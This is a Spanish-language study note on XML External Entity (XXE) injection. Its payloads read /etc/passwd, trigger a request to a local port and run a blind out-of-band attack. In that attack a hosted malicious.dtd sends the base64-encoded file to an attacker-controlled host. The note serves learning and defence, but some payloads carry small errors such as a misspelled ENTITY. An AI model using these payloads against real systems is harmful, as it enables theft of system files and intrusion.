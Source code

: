 ```yaml
---
created: 2024-12-21

---
```

-------
- tags: #xml #web #lfi #SSRF #burpsuite 
------------
# ¿Qué es?
> Hace referencia a XML (eXtensible Markup Language) eXternal Entity Injection y nos permite llegar a ver archivos del equipo a través de etiquetas XML que podemos modificar
W
## Ejemplo de XML normal
```xml
<? xml version="1.0" encoding="UTF-8"?>
<root>
	<name>
		David
	</name>
	<surname>
		Alonso
	</surname>
	<birth>
		05/05/2004
	</birth>
</root>
```

## Ejemplo de Explotación XML

Podemos llegar a representar la misma información que en el ejemplo anterior si hacemos lo siguiente:

```xml
<? xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY myName "David">]>
<root>
	<name>
		&myName;
	</name>
	<surname>
		Alonso
	</surname>
	<birth>
		05/05/2004
	</birth>
</root>```

De este modo, estamos declarando la ENTIDAD "myName" cuyo valor es "David" y llamando más tarde al valor de la entidad con "&myName;"


## XXE ---> LFI

Podemos referenciar a archivos de la siguiente manera:

```xml
<? xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY myFile SYSTEM "file:///etc/passwd">]>
<root>
	<name>
		&myFile;
	</name>
	<surname>
		Alonso
	</surname>
	<birth>
		05/05/2004
	</birth>
</root>```


De este modo, conseguimos crear la entidad myFile cuyo valor será en contenido del fichero "/etc/passwd" y representarlo a través de "&myFile;"

## XXE ---> SSRF

```xml
<? xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://127.0.0.1:8080/">]>
<root>
	<name>
		&myName;
	</name>
	<surname>
		Alonso
	</surname>
	<birth>
		05/05/2004
	</birth>
</root>```

## XXE ---> RCE

Hay formas de derivar XXE a RCE a través de wrappers de php, [haz clic para saber más](https://airman604.medium.com/from-xxe-to-rce-with-php-expect-the-missing-link-a18c265ea4c7)



## XXE OOB (Out Of Bound) (Blind)

> Si al explotar la inyección XXE no vemos output, o no podemos mostrar entidades, podremos aun así llegar a explotarlo a través de un XXE OOB.

Declaramos la siguiente estructura XML:
```xml
<? xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://miip/malicious.dtd"> %xxe;]>
<root>
	<name>
		&myFile;
	</name>
	<surname>
		Alonso
	</surname>
	<birth>
		05/05/2004
	</birth>
</root>```

Teniendo un servidor http montado con el fichero malicious.dtd que contenga lo siguiente:

malicious.dtd:
```
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % eval "<!ENTYTY &#x25; exfil SYSTEM 'http://miip/?file=%file;'>">
%eval;
%exfil;
```
**(Aclaración: &#x25; es como se representa el % cuando la entidad se encuentra dentro de otra entidad, el % es 25 en hexadecimal)**


Deberíamos de recibir una solicitud que contendrá el archivo /etc/passwd en base64


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
